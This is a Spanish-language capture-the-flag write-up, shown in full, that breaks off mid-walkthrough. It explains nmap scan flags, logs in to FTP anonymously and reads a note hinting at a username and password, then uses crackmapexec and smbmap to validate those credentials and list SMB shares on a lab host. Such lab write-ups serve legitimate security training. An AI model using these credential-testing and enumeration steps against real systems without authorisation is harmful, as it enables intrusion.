 - **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

**Conclusiones:** Podemos sacar:
+ El puerto **21 (FTP)** es vulnerable a **ftp-anon** -> entrar con usuario anonymous sin necesidad de poner contraseña.

## FTP (21)

Al entrar con usuario anonymous, vemos una nota.txt:

```shell
cat nota.txt 

I don't know what to do with Macarena, she's obsessed with donald.

```

Posible usuario **macarena** y **donald** tiene pinta de ser su contra.
## SMB (445)

Comprobamos con **crackmapexec** si las credenciales son correctas:

```shell

crackmapexec smb 172.17.0.2 -u macarena -p donald 
SMB         172.17.0.2      445    4E3F25C9A36E     [*] Windows 6.1 Build 0 (name:4E3F25C9A36E) (domain:4E3F25C9A36E) (signing:False) (SMBv1:False)
SMB         172.17.0.2      445    4E3F25C9A36E     [+] 4E3F25C9A36E\macarena:donald 

```

Efectivamente.

Vemos con **smbmap** la estructura y a que tenemos acceso:

```shell

smbmap -H 172.17.0.2 -u macarena -p donald     

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.5 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                      
                                                                                                                             
[+] IP: 172.17.0.2:445  Name: pressenter.hl             Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  READ ONLY       Printer Drivers
        macarena                                                READ, WRITE
```